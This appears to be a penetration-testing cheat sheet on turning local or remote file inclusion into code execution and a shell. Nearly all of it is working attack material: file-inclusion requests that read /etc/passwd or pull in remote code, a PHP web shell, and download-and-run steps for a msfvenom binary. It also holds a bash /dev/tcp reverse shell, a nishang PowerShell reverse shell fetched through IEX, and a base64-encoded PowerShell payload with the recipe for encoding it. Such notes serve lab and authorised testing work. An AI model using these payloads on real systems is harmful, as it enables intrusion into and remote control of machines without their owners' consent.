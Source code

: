 # from LFI/RFI to RCE to Shell

## Linux

 /admin.php?ACS_path=/etc/passwd

  /admin.php?ASC_path=http://10.x.x.x/rce.php?cmd=id


  rce.php -->

 ```php
 <?php
   echo "test"; 
   print("test"); 
   system("ls"); 
   eval("id");
   print($_GET["cmd"]);

   //msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.x.x.x LPORT=443 -f elf > rshellbinary
   system("wget http://10.x.x.x/shellbinary -O /tmp/shellbinary");
   system("chmod +x /tmp/shellbinary");
   system("file /tmp/shellbinary");
   system("/tmp/shellbinary");
  ?>
 ```

 ```
 <?php echo shell_exec('bash -i >& /dev/tcp/10.11.0.139/8888 0>&1'); ?>
 ```


```
 
 ```



 ## on Windows

 python -m SimpleHTTPServer 80
 nishang/shells/Invoke-PowerShellTcp.ps1 --> `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.x.x -Port 443` at end of file


 nc -nlvp  443

 ```cmd
 PS 5.1: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
 PS 5.1: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe


 c:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe -command "& IEX(New-Object Net.WebClient).downloadString(\"http://10.10.x.x/Invoke-PowerShellTcp.ps1\")"'
 ```

```
cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAIgBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADcANwAvAEkAbgB2AG8AawBlAC0AUABvAHcAZQByAFMAaABlAGwAbABUAGMAcAAuAHAAcwAxACIAKQAKAA==
```
```
echo "IEX(New-Object Net.WebClient).downloadString(\"http://10.10.14.77/Invoke-PowerShellTcp.ps1\")" | iconv --to-code UTF-16LE | base64 -w 0
```

tags: rce reverse_shell LFI RFI powershell rce2shell
